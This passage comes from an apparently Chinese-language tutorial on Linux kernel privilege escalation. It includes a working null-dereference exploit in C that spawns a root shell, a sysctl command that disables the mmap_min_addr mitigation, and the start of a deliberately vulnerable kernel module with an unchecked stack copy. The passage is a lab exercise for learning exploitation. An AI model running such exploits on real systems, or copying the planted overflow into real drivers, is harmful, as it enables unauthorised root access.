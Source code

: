 **3. exploit**



```
$ cat exploit.c
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sys/mman.h&gt;
char payload[] = "x31xc0xe8xb9x7fx06xc1xe8x14x7ex06xc1xc3";
int main()
{
        mmap(0, 4096,PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS ,-1, 0);
        memcpy(0, payload, sizeof(payload));
        int fd = open("/proc/bug1", O_WRONLY);
        write(fd, "muhe", 4);
        system("/bin/sh");//get root shell
        return 0;
}
```

**5. get root shell**

然后新建用户去测试exploit。

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c374c74eaf5f6b55.png)

但是得到报错：

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011c90181b1f97415a.png)

这是因为，2.6.32内核已经使用mmap_min_addr作为缓解措施mmap_min_addr为4096，需要设置下mmap_min_addr。

```
# sysctl -w vm.mmap_min_addr="0"
```

设置之后重新运行exploit

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016e6ad423dc6e5122.png)

成功拿到root shell

<br>

**0x02 : Kernel Stack Overflow**

**1. 介绍**

和用户态的栈溢出原理一样，拷贝、拼接字符串的时候未作长度检查，导致覆盖栈上保存的返回地址，只后可以劫持程序流程，从而实现代码执行的效果。只不过这是在内核空间，可以直接用来提权。

**2. 漏洞代码**



```
#include &lt;linux/init.h&gt;
#include &lt;linux/module.h&gt;
#include &lt;linux/kernel.h&gt;
#include &lt;linux/proc_fs.h&gt;
int bug2_write(struct file *file,const char *buf,unsigned long len)
{
    char localbuf[8];
    memcpy(localbuf,buf,len);
    return len;
}
static int __init stack_smashing_init(void)
{
    printk(KERN_ALERT "stack_smashing driver init!n");
    create_proc_entry("bug2",0666,0)-&gt;write_proc = bug2_write;
```